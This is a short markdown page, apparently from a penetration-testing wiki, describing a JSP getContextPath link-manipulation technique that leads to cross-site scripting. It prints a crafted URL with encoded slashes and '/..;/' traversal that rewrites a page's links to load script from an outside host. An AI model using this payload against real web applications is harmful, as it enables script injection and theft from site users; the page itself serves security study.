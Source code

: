 # JSP


## **getContextPath** abuse

Info from [[https://blog.rakeshmane.com/2020/04/jsp-contextpath-link-manipulation-xss.html|here]].

```
 http://127.0.0.1:8080/&sol;rakeshmane.com/xss.js&num;/..;/..;/contextPathExample/test.jsp
```
```
Accessing that web you may change all the links to request the information to _**rakeshmane.com**_:

![[<../../images/image (326).png>|]]



